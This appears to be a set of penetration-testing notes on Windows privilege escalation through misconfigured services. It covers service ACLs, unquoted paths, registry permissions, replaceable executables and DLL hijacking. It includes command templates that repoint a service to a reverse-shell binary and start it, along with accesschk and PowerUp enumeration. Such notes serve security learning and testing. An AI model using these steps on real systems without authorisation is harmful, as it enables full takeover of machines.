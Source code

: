 If a service runs with a SYSTEM Privs and are misconfigured, exploiting them may lead to command execution with SYSTEM privilege as well.

### Service Commands
```powershell
# Query the configuration of a service
sc.exe qc <name>

# Query the current status of a service
sc.exe query <name>

# Modify a configuration option of a service
sc.exe config <name> <option>= <value>

# Start/Stop a service
net start/stop <name>
```

# Service Misconfigurations
### Insecure Service Permissions
Each service has an ACL which defined certain service-specific permission
```powershell
# Innocuous Service Permission
SERVICE_QUERY_CONFIG
SERVICE_QUERY_STATUS

# Usefull Service Permission to check weather service is starable or stopable by the user
SERVICE_STOP
SERVICE_START

# Dangerous Service
SERVICE_CHANGE_CONFIG
SERVICE_ALL_ACCESS
```
- If user has permission to change service configuration with SYSTEM priv, the change the executable path with our own
- We need to have permission to start/stop the service, to be able to escalate prvileges
Check ACLs for a service
```
.\accesschk.exe /accepteula -uwcqv <user> <service>
```
- Change binary path of a service
```powershell
sc.exe config <service> binpath= "\"C:\reverse_shell.exe\""

# start service to start the reverse shell
net start <service>
```
- Using powershell to enumerate the pathnames
```powershell
Get-WmiObject -Class win32_service | select-object pathname
```
- PowerUp can be used to query services whose binpath can be mofified by the current user:
```powershell
Get-ModifiableServiceFile -Verbose
```
- PowerUp can be used to query services whose configuration can be changed by the current user:
```powershell
Get-ModifiableService -Verbose
```

### Unquoted Service Path
```powershell
# runs someProgram.exe
"C:\Program Files\Some Dir\SomeProgram.exe"

C:\Program Files\Some Dir\SomeProgram.exe
# Should run Program first with two argument Files\Some and Dir\Someprogram.exe
# windows resolve this ambiguity by checking each possibiltity in turn.
# Execution order:
# 1. "C:\Program"
# 2. "C:\Program Files\Some"
# 3. "C:\Program Files\Some Dir\SomeProgram.exe"
```
- This can be exploited to check which directory can we access and put our reverse shell there with write access.
- To check write access for each of these directories
```powershell
.\acchesschk -quvdw "C:\"
.\acchesschk -quvdw "C:\Program Files\"
.
.
.
```
- After writeable path is found. Copy the reverse shell.
```
# "C:\Program Files\Some"
net start
```
- We get a reverse shell
- PowerUp script can be used to search for unquoted service paths:
```powershell
Get-ServiceUnquoted -Verbose
```
### Weak Registry Permission
- Stores data for each service
- Registries have ACL
- ACLs can be misconfigured
- may be possible to service config via registry.
```powershell
# Verify Writable registry keys:
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | select-object -Property *

# Verify writibility via accesschk
.\accesshk -quv
```
```powershell
# Query the registry key
reg query <registry>

# Overwrite the exectable
reg add <registry> /v <variable> /t <data_type> /d <data> /f

# restart the service
net start regsvc
```

### Insecure Service Executable
If the original executable is modifiable by our user.
```powershell
# Overwrite the service executable with our reverse shell.
net start <service>
```

### DLL Hijacking
- A DLL is missing from the system.
- Our user has write permission on the directory where the DDL is looked for by the system. 
- DDL is executed with the same privilege as the process that imports the DLL
```powershell
# Test which service we can stop and start
# copy over to our system
# Use procmon64 to analyze missing DLL
# Check if that path is writable or not
# Place reverse shell there
net start <service>
```

